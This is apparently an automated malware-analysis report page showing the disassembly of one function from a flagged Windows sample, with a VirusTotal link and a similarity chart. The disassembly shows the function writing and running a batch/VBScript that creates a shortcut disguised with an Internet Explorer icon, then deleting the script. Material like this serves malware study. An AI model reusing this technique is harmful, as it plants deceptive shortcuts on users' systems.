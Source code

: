 ```yaml
---
layout: post
title:  "fcn.00440260 @ c60344b51fa39a329b92557d24ff7670"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00440260
- **Origin (md5):** c60344b51fa39a329b92557d24ff7670
- **VirusTotal:** [virustotal.com/gui/file/c60344b51fa39a329b92557d24ff7670][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Estimated Behaviour
<ul><li class="bhv-desc" id="na">Not Available :(</li></ul>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/fcn.00440260@c60344b51fa39a329b92557d24ff7670">fcn.00440260</a><br>@c60344b51fa39a329b92557d24ff7670</b><br>', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
push 0xffffffffffffffff
push 0x5add78
mov eax, dword
push eax
sub esp, 0x1bc
mov eax, dword[0x5ffcc0]
xor eax, ebp
push eax
lea eax, [ebp-0xc]
mov dword
mov dword[ebp-0x118], ecx
mov dword[ebp-0x114], 0
mov dword[ebp-4], 1
lea ecx, [ebp-0x98]
call fcn.00421860
mov byte[ebp-4], 2
lea eax, [ebp+0x18]
push eax
lea ecx, [ebp-0x24]
call fcn.0040f860
mov byte[ebp-4], 3
lea ecx, [ebp-0x78]
call fcn.00421860
mov byte[ebp-4], 4
lea ecx, [ebp+0x2c]
push ecx
mov ecx, dword[ebp-0x118]
add ecx, 0x38
call fcn.00431d10
mov edx, dword[eax]
push edx
push 3
push ecx
mov ecx, esp
mov dword[ebp-0xc8], esp
lea eax, [ebp+0x2c]
push eax
call fcn.0040f860
mov dword[ebp-0x11c], eax
lea ecx, [ebp-0x90]
push ecx
mov ecx, dword[ebp-0x118]
call fcn.0043f190
mov dword[ebp-0x120], eax
mov byte[ebp-4], 5
push str.iexplore.exe_
lea ecx, [ebp-0x18]
call fcn.0040f880
mov byte[ebp-4], 6
push 0x26
lea edx, [ebp-0x8c]
push edx
call fcn.00516660
add esp, 8
mov byte[ebp-4], 7
push str.__Internet_Explorer__iexplore.exe_
lea eax, [ebp-0x8c]
push eax
lea ecx, [ebp-0x30]
push ecx
call fcn.00410080
add esp, 0xc
mov byte[ebp-4], 8
call fcn.00517120
test eax, eax
je off.b443
call fcn.005167c0
test eax, eax
je off.b443
push 0x26
lea edx, [ebp-0xcc]
push edx
call fcn.00516660
add esp, 8
mov dword[ebp-0x124], eax
mov eax, dword[ebp-0x124]
mov dword[ebp-0x128], eax
mov byte[ebp-4], 9
mov ecx, dword[ebp-0x128]
push ecx
lea ecx, [ebp-0x30]
call fcn.0040f980
mov byte[ebp-4], 8
lea ecx, [ebp-0xcc]
call fcn.00410950
push 0
push 0x73
lea ecx, [ebp-0x30]
call fcn.0040fd40
push eax
lea edx, [ebp-0xd0]
push edx
lea ecx, [ebp-0x30]
call fcn.0040ffc0
mov dword[ebp-0x12c], eax
mov eax, dword[ebp-0x12c]
mov dword[ebp-0x130], eax
mov byte[ebp-4], 0xa
mov ecx, dword[ebp-0x130]
push ecx
lea ecx, [ebp-0x30]
call fcn.0040f980
mov byte[ebp-4], 8
lea ecx, [ebp-0xd0]
call fcn.00410950
mov edx, dword[ebp-0x30]
push edx
push str._ssInternet_Exploreriexplore.exe
lea eax, [ebp-0x30]
push eax
call fcn.00415100
add esp, 0xc
lea ecx, [ebp-0x30]
push ecx
lea ecx, [ebp-0xac]
call fcn.0040f860
mov byte[ebp-4], 0xb
push ecx
mov ecx, esp
mov dword[ebp-0xd4], esp
lea edx, [ebp-0xac]
push edx
call fcn.0040f860
mov dword[ebp-0x134], eax
call fcn.00528e50
add esp, 4
mov dword[ebp-0x138], eax
cmp dword[ebp-0x138], 0
jne off.b586
lea eax, [ebp-0x18]
push eax
lea ecx, [ebp-0xd8]
push ecx
call fcn.0050b8a0
add esp, 8
mov dword[ebp-0x13c], eax
mov edx, dword[ebp-0x13c]
mov dword[ebp-0x140], edx
mov byte[ebp-4], 0xc
mov eax, dword[ebp-0x140]
push eax
lea ecx, [ebp-0xac]
call fcn.0040f980
mov byte[ebp-4], 0xb
lea ecx, [ebp-0xd8]
call fcn.00410950
lea ecx, [ebp-0x24]
call fcn.00410410
movzx ecx, al
test ecx, ecx
je off.b613
lea edx, [ebp-0x18]
push edx
lea ecx, [ebp-0x24]
call fcn.0040f980
lea ecx, [ebp-0xa8]
call fcn.00421860
mov byte[ebp-4], 0xd
lea ecx, [ebp-0x14]
call fcn.00421860
mov byte[ebp-4], 0xe
push 0x26
lea eax, [ebp-0xdc]
push eax
call fcn.00516660
add esp, 8
mov dword[ebp-0x144], eax
mov ecx, dword[ebp-0x144]
mov dword[ebp-0x148], ecx
mov byte[ebp-4], 0xf
push str.cache_
mov edx, dword[ebp-0x148]
mov eax, dword[edx]
push eax
push str._s___s_
lea ecx, [ebp-0x14]
push ecx
call fcn.00415100
add esp, 0x10
mov byte[ebp-4], 0xe
lea ecx, [ebp-0xdc]
call fcn.00410950
push 0x10
lea edx, [ebp-0xe0]
push edx
call fcn.00516660
add esp, 8
mov dword[ebp-0x14c], eax
mov eax, dword[ebp-0x14c]
mov dword[ebp-0x150], eax
mov byte[ebp-4], 0x10
mov ecx, dword[ebp-0x24]
push ecx
mov edx, dword[ebp-0x150]
mov eax, dword[edx]
push eax
push str._s___s.lnk_
lea ecx, [ebp-0x78]
push ecx
call fcn.00415100
add esp, 0x10
mov byte[ebp-4], 0xe
lea ecx, [ebp-0xe0]
call fcn.00410950
mov edx, dword[ebp-0x14]
push edx
push str._sNavi.lnk
lea eax, [ebp-0xa8]
push eax
call fcn.00415100
add esp, 0xc
mov ecx, dword[ebp-0x14]
push ecx
push str._sCreatLnk.bat
lea edx, [ebp-0x98]
push edx
call fcn.00415100
add esp, 0xc
lea ecx, [ebp-0x90]
call fcn.00410410
movzx eax, al
test eax, eax
je off.b898
lea ecx, [ebp+0xfc]
push ecx
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx edx, al
test edx, edx
je off.b939
lea eax, [ebp+0xf0]
push eax
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx ecx, al
test ecx, ecx
je off.b980
lea edx, [ebp+0xf8]
push edx
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx eax, al
test eax, eax
je off.b1021
lea ecx, [ebp+0xf4]
push ecx
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx edx, al
test edx, edx
je off.b1059
lea eax, [ebp+0x100]
push eax
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx ecx, al
test ecx, ecx
je off.b1094
lea edx, [ebp+0x2c]
push edx
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx eax, al
test eax, eax
je off.b1129
lea ecx, [ebp+0x20]
push ecx
lea ecx, [ebp-0x90]
call fcn.0040f980
jmp off.b1162
lea ecx, [ebp-0x90]
call fcn.00410410
movzx edx, al
test edx, edx
je off.b1162
lea eax, [ebp+0x24]
push eax
lea ecx, [ebp-0x90]
call fcn.0040f980
mov dword[ebp-0x88], 0
lea ecx, [ebp-0x14]
call fcn.00410390
push eax
call dword[sym.imp.KERNEL32.dll_GetFileAttributesW]
cmp eax, 0xffffffff
jne off.b1204
mov dword[ebp-0x88], 0
jmp off.b1214
mov dword[ebp-0x88], 1
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00410430
cmp dword[ebp-0x88], 0
jne off.b1250
push 0
lea ecx, [ebp-0x14]
call fcn.00453f10
push eax
call dword[sym.imp.KERNEL32.dll_CreateDirectoryW]
lea ecx, [ebp-0x20]
call fcn.00421860
mov byte[ebp-4], 0x11
lea ecx, [ebp-0xb8]
call fcn.00421860
mov byte[ebp-4], 0x12
lea ecx, [ebp-0xa4]
call fcn.00421860
mov byte[ebp-4], 0x13
lea ecx, [ebp-0x2c]
call fcn.00421860
mov byte[ebp-4], 0x14
lea ecx, [ebp-0x74]
call fcn.00421860
mov byte[ebp-4], 0x15
lea ecx, [ebp-0xb4]
call fcn.00421860
mov byte[ebp-4], 0x16
lea ecx, [ebp-0xb0]
call fcn.00421860
mov byte[ebp-4], 0x17
lea ecx, [ebp-0x28]
call fcn.00421860
mov byte[ebp-4], 0x18
lea ecx, [ebp-0xa0]
call fcn.00421860
mov byte[ebp-4], 0x19
lea ecx, [ebp-0x9c]
call fcn.00421860
mov byte[ebp-4], 0x1a
lea ecx, [ebp-0x84]
call fcn.00421860
mov byte[ebp-4], 0x1b
lea ecx, [ebp-0x80]
call fcn.00421860
mov byte[ebp-4], 0x1c
lea ecx, [ebp-0x1c]
call fcn.00421860
mov byte[ebp-4], 0x1d
lea ecx, [ebp-0x7c]
call fcn.00421860
mov byte[ebp-4], 0x1e
push str.Sub_bat_r_n
lea ecx, [ebp-0x20]
push ecx
call fcn.00415100
add esp, 8
push str.echo_off__cls_r_n
lea edx, [ebp-0xb8]
push edx
call fcn.00415100
add esp, 8
push str.echo_create_shortcut_r_n
lea eax, [ebp-0xa4]
push eax
call fcn.00415100
add esp, 8
push str.start_wscript__e:vbs____f0__r_n
lea ecx, [ebp-0x2c]
push ecx
call fcn.00415100
add esp, 8
push str.Exit_Sub_End_Sub_r_n
lea edx, [ebp-0x74]
push edx
call fcn.00415100
add esp, 8
push str.Set_WshShell__WScript.CreateObject__WScript.Shell___r_n
lea eax, [ebp-0xb4]
push eax
call fcn.00415100
add esp, 8
mov ecx, dword[ebp-0xa8]
push ecx
push str.set_oShellLink__WshShell.CreateShortcut___s___r_n
lea edx, [ebp-0xb0]
push edx
call fcn.00415100
add esp, 0xc
mov eax, dword[ebp-0x90]
push eax
push str.oShellLink.TargetPath____s__r_n
lea ecx, [ebp-0x28]
push ecx
call fcn.00415100
add esp, 0xc
push str.oShellLink.WindowStyle__1_r_n
lea edx, [ebp-0xa0]
push edx
call fcn.00415100
add esp, 8
mov eax, dword[ebp-0xac]
push eax
push str.oShellLink.IconLocation____s__0__r_n
lea ecx, [ebp-0x9c]
push ecx
call fcn.00415100
add esp, 0xc
mov edx, dword[ebp-0xac]
push edx
push str.oShellLink.WorkingDirectory____s__r_n
lea eax, [ebp-0x84]
push eax
call fcn.00415100
add esp, 0xc
push str.oShellLink.Save
lea ecx, [ebp-0x80]
push ecx
call fcn.00415100
add esp, 8
lea edx, [ebp-0xb8]
push edx
lea eax, [ebp-0x20]
push eax
lea ecx, [ebp-0xe4]
push ecx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x154], eax
mov edx, dword[ebp-0x154]
mov dword[ebp-0x158], edx
mov byte[ebp-4], 0x1f
lea eax, [ebp-0xa4]
push eax
mov ecx, dword[ebp-0x158]
push ecx
lea edx, [ebp-0xe8]
push edx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x15c], eax
mov eax, dword[ebp-0x15c]
mov dword[ebp-0x160], eax
mov byte[ebp-4], 0x20
lea ecx, [ebp-0x2c]
push ecx
mov edx, dword[ebp-0x160]
push edx
lea eax, [ebp-0xec]
push eax
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x164], eax
mov ecx, dword[ebp-0x164]
mov dword[ebp-0x168], ecx
mov byte[ebp-4], 0x21
lea edx, [ebp-0x74]
push edx
mov eax, dword[ebp-0x168]
push eax
lea ecx, [ebp-0xf0]
push ecx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x16c], eax
mov edx, dword[ebp-0x16c]
mov dword[ebp-0x170], edx
mov byte[ebp-4], 0x22
lea eax, [ebp-0xb4]
push eax
mov ecx, dword[ebp-0x170]
push ecx
lea edx, [ebp-0xf4]
push edx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x174], eax
mov eax, dword[ebp-0x174]
mov dword[ebp-0x178], eax
mov byte[ebp-4], 0x23
lea ecx, [ebp-0xb0]
push ecx
mov edx, dword[ebp-0x178]
push edx
lea eax, [ebp-0xf8]
push eax
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x17c], eax
mov ecx, dword[ebp-0x17c]
mov dword[ebp-0x180], ecx
mov byte[ebp-4], 0x24
lea edx, [ebp-0x28]
push edx
mov eax, dword[ebp-0x180]
push eax
lea ecx, [ebp-0xfc]
push ecx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x184], eax
mov edx, dword[ebp-0x184]
mov dword[ebp-0x188], edx
mov byte[ebp-4], 0x25
lea eax, [ebp-0xa0]
push eax
mov ecx, dword[ebp-0x188]
push ecx
lea edx, [ebp-0x100]
push edx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x18c], eax
mov eax, dword[ebp-0x18c]
mov dword[ebp-0x190], eax
mov byte[ebp-4], 0x26
lea ecx, [ebp-0x9c]
push ecx
mov edx, dword[ebp-0x190]
push edx
lea eax, [ebp-0x104]
push eax
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x194], eax
mov ecx, dword[ebp-0x194]
mov dword[ebp-0x198], ecx
mov byte[ebp-4], 0x27
lea edx, [ebp-0x84]
push edx
mov eax, dword[ebp-0x198]
push eax
lea ecx, [ebp-0x108]
push ecx
call fcn.0041a530
add esp, 0xc
mov dword[ebp-0x19c], eax
mov edx, dword[ebp-0x19c]
mov dword[ebp-0x1a0], edx
mov byte[ebp-4], 0x28
lea eax, [ebp-0x80]
push eax
mov ecx, dword[ebp-0x1a0]
push ecx
lea edx, [ebp-0x10]
push edx
call fcn.0041a530
add esp, 0xc
mov byte[ebp-4], 0x2a
lea ecx, [ebp-0x108]
call fcn.00410950
mov byte[ebp-4], 0x2b
lea ecx, [ebp-0x104]
call fcn.00410950
mov byte[ebp-4], 0x2c
lea ecx, [ebp-0x100]
call fcn.00410950
mov byte[ebp-4], 0x2d
lea ecx, [ebp-0xfc]
call fcn.00410950
mov byte[ebp-4], 0x2e
lea ecx, [ebp-0xf8]
call fcn.00410950
mov byte[ebp-4], 0x2f
lea ecx, [ebp-0xf4]
call fcn.00410950
mov byte[ebp-4], 0x30
lea ecx, [ebp-0xf0]
call fcn.00410950
mov byte[ebp-4], 0x31
lea ecx, [ebp-0xec]
call fcn.00410950
mov byte[ebp-4], 0x32
lea ecx, [ebp-0xe8]
call fcn.00410950
mov byte[ebp-4], 0x33
lea ecx, [ebp-0xe4]
call fcn.00410950
push 0
push 0x8000080
push 2
push 0
push 0
push 0x40000000
lea ecx, [ebp-0x98]
call fcn.00453f10
push eax
call dword[sym.imp.KERNEL32.dll_CreateFileW]
mov dword[ebp-0x70], eax
cmp dword[ebp-0x70], 0xffffffff
je off.b2744
lea ecx, [ebp-0x10]
call fcn.00453f10
mov dword[ebp-0x1a4], eax
mov eax, dword[ebp-0x1a4]
add eax, 2
mov dword[ebp-0x1a8], eax
mov ecx, dword[ebp-0x1a4]
mov dx, word[ecx]
mov word[ebp-0x1aa], dx
add dword[ebp-0x1a4], 2
cmp word[ebp-0x1aa], 0
jne off.b2441
mov eax, dword[ebp-0x1a4]
sub eax, dword[ebp-0x1a8]
sar eax, 1
mov dword[ebp-0x1b0], eax
push 0
push 0
push 0
push 0
mov ecx, dword[ebp-0x1b0]
push ecx
lea ecx, [ebp-0x10]
call fcn.00453f10
push eax
push 0
push 0
call dword[sym.imp.KERNEL32.dll_WideCharToMultiByte]
mov dword[ebp-0xc4], eax
mov edx, dword[ebp-0xc4]
add edx, 1
push edx
call fcn.00552374
add esp, 4
mov dword[ebp-0x10c], eax
mov eax, dword[ebp-0x10c]
mov dword[ebp-0xbc], eax
lea ecx, [ebp-0x10]
call fcn.00453f10
mov dword[ebp-0x1b4], eax
mov ecx, dword[ebp-0x1b4]
add ecx, 2
mov dword[ebp-0x1b8], ecx
mov edx, dword[ebp-0x1b4]
mov ax, word[edx]
mov word[ebp-0x1ba], ax
add dword[ebp-0x1b4], 2
cmp word[ebp-0x1ba], 0
jne off.b2599
mov ecx, dword[ebp-0x1b4]
sub ecx, dword[ebp-0x1b8]
sar ecx, 1
mov dword[ebp-0x1c0], ecx
push 0
push 0
mov edx, dword[ebp-0xc4]
push edx
mov eax, dword[ebp-0xbc]
push eax
mov ecx, dword[ebp-0x1c0]
push ecx
lea ecx, [ebp-0x10]
call fcn.00453f10
push eax
push 0
push 0
call dword[sym.imp.KERNEL32.dll_WideCharToMultiByte]
mov edx, dword[ebp-0xbc]
add edx, dword[ebp-0xc4]
mov byte[edx], 0
push 0
lea eax, [ebp-0xc0]
push eax
mov ecx, dword[ebp-0xc4]
push ecx
mov edx, dword[ebp-0xbc]
push edx
mov eax, dword[ebp-0x70]
push eax
call dword[sym.imp.KERNEL32.dll_WriteFile]
mov ecx, dword[ebp-0x70]
push ecx
call dword[sym.imp.KERNEL32.dll_CloseHandle]
push 0x3c
push 0
lea edx, [ebp-0x6c]
push edx
call fcn.0057a180
add esp, 0xc
mov dword[ebp-0x6c], 0x3c
mov dword[ebp-0x64], 0
mov dword[ebp-0x60], str.open_
lea ecx, [ebp-0x98]
call fcn.00453f10
mov dword[ebp-0x5c], eax
mov dword[ebp-0x50], 1
mov dword[ebp-0x68], 0x40
mov dword[ebp-0x50], 0
lea eax, [ebp-0x6c]
push eax
call dword[sym.imp.SHELL32.dll_ShellExecuteExW]
mov dword[ebp-0x94], eax
push 0xffffffffffffffff
mov ecx, dword[ebp-0x34]
push ecx
call dword[sym.imp.KERNEL32.dll_WaitForSingleObject]
push 0x7d0
call dword[sym.imp.KERNEL32.dll_Sleep]
push ecx
mov ecx, esp
mov dword[ebp-0x110], esp
lea edx, [ebp-0x78]
push edx
call fcn.0040f860
mov dword[ebp-0x1c4], eax
call fcn.00528e50
add esp, 4
mov dword[ebp-0x1c8], eax
cmp dword[ebp-0x1c8], 0
jne off.b2941
push 0
lea ecx, [ebp-0x78]
call fcn.00453f10
push eax
lea ecx, [ebp-0xa8]
call fcn.00453f10
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
lea ecx, [ebp-0xa8]
call fcn.00453f10
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
lea ecx, [ebp-0x98]
call fcn.00453f10
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
lea eax, [ebp-0x78]
push eax
mov ecx, dword[ebp+8]
call fcn.0040f860
mov ecx, dword[ebp-0x114]
or ecx, 1
mov dword[ebp-0x114], ecx
mov byte[ebp-4], 0x1e
lea ecx, [ebp-0x10]
call fcn.00410950
mov byte[ebp-4], 0x1d
lea ecx, [ebp-0x7c]
call fcn.00410950
mov byte[ebp-4], 0x1c
lea ecx, [ebp-0x1c]
call fcn.00410950
mov byte[ebp-4], 0x1b
lea ecx, [ebp-0x80]
call fcn.00410950
mov byte[ebp-4], 0x1a
lea ecx, [ebp-0x84]
call fcn.00410950
mov byte[ebp-4], 0x19
lea ecx, [ebp-0x9c]
call fcn.00410950
mov byte[ebp-4], 0x18
lea ecx, [ebp-0xa0]
call fcn.00410950
mov byte[ebp-4], 0x17
lea ecx, [ebp-0x28]
call fcn.00410950
mov byte[ebp-4], 0x16
lea ecx, [ebp-0xb0]
call fcn.00410950
mov byte[ebp-4], 0x15
lea ecx, [ebp-0xb4]
call fcn.00410950
mov byte[ebp-4], 0x14
lea ecx, [ebp-0x74]
call fcn.00410950
mov byte[ebp-4], 0x13
lea ecx, [ebp-0x2c]
call fcn.00410950
mov byte[ebp-4], 0x12
lea ecx, [ebp-0xa4]
call fcn.00410950
mov byte[ebp-4], 0x11
lea ecx, [ebp-0xb8]
call fcn.00410950
mov byte[ebp-4], 0xe
lea ecx, [ebp-0x20]
call fcn.00410950
mov byte[ebp-4], 0xd
lea ecx, [ebp-0x14]
call fcn.00410950
mov byte[ebp-4], 0xb
lea ecx, [ebp-0xa8]
call fcn.00410950
mov byte[ebp-4], 8
lea ecx, [ebp-0xac]
call fcn.00410950
mov byte[ebp-4], 7
lea ecx, [ebp-0x30]
call fcn.00410950
mov byte[ebp-4], 6
lea ecx, [ebp-0x8c]
call fcn.00410950
mov byte[ebp-4], 5
lea ecx, [ebp-0x18]
call fcn.00410950
mov byte[ebp-4], 4
lea ecx, [ebp-0x90]
call fcn.00410950
mov byte[ebp-4], 3
lea ecx, [ebp-0x78]
call fcn.00410950
mov byte[ebp-4], 2
lea ecx, [ebp-0x24]
call fcn.00410950
mov byte[ebp-4], 1
lea ecx, [ebp-0x98]
call fcn.00410950
mov byte[ebp-4], 0
lea ecx, [ebp+0xc]
call fcn.004314b0
mov eax, dword[ebp+8]
mov ecx, dword[ebp-0xc]
mov dword
pop ecx
mov esp, ebp
pop ebp
ret 0x100

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/c60344b51fa39a329b92557d24ff7670